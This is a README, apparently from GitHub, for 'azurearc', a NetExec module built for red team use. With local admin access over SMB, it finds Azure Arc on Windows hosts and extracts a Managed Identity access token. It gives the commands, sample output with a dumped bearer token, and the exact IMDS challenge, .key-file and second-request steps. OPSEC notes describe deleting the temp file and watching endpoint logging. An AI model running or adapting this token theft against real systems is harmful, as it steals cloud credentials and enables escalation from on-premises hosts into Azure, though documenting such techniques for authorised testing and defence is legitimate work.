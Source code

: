 # NetExec Module: `azurearc`  
Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.  

* **Protocol:** SMB (requires local administrator privileges)  
* **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.  


  
## ✨ Features

* **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.  
* **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.  


    
  
# ⚙️ Usage

* Add the module file at:    
  nxc/modules/azurearc.py

  
## Presence check only :
```
nxc smb  -u <USER> -p <PASS> -M azurearc -o CHECK=true
```
## Token dump :
```
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc  
[*] Attempting to retrieve Azure Arc Managed Identity access token  
[+] Managed Identity token retrieved  
{
"access_token": "eyJhbGciOi......",
"expires_on": "1730812345",
"token_type": "Bearer",
"resource": "https://management.azure.com"
}
```
## 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent*   
C:\Program Files (x86)\AzureConnectedMachineAgent*
### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=... → expect 401 with WWW-Authenticate: Basic realm="<path to .key>" Read the .key contents (requires local admin).  
2.Second GET with Authorization: Basic to obtain token JSON.   
Write JSON to OUTFILE, fetch via SMB, and delete the file.
### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/331bf94f-a2bc-428d-a804-2d22b009e9c0" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/4119cda4-1a80-413a-add5-79dcdd950a8f" />


### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.
### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud  
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/

